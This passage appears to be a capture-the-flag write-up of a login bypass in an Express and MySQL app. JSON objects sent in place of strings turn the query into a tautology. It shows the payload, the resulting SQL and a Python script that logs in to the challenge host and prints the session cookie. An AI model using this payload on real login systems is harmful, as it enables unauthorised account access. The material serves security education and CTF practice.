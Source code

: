 To elaborate further, this means that we can pass in an `Object` like a JSON object instead of the expected `String` into the `username` or `password` field. In other words, instead of:

```bash
{
    "email":"email@email.com",
    "password":"password""
}
```

We can instead pass in a javascript object to of the fields and `express` would interpret it as a valid SQL statement.

```bash
{
    "email":{"email":1},
    "password":{"password":1}
}
```

On `mysql`'s side, the SQL statement would be interpreted like this:

```sql
SELECT * FROM users WHERE email = `email` = 1 AND password = `password` = 1;
```
and because ``email = `email` `` and ``password = `password` `` both evaluates to `1`, which evaluates to the following:

```sql
SELECT * FROM users WHERE 1 = 1 AND 1 = 1;
```

and finally, `mysql` evaluates the following:

```sql
SELECT * FROM users;
```

Notice that in the `postLoginHandler` code a `401` is returned only if the number of rows returned by `mysql` is 0:

```javascript
if (rows.length === 0)
    return res.status(401).send({ message: 'Invalid email or password' })

req.session.userId = rows[0].id
return res.status(200).send({ message: "Success" })
```

Thankfully enough, there is only one user that is registered in the database as seen in in `mysql-init/init.sql` file:

```sql
INSERT INTO `users` (`email`, `password`) VALUES ("REDACTED@REDACTED", "REDACTED");
```
Here's a script that I used to authenticate and print a cookie that can be used for the other parts of this challenge:

```python
import requests
import json

url = "http://chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627"
body = {"email": {"email":1},
        "password": {"password":1}
        }
login_url = f"{url}/login"
r = requests.post(login_url, json=body)

for c in r.cookies:
    if c.name == "connect.sid":
        print(c.name, c.value)
```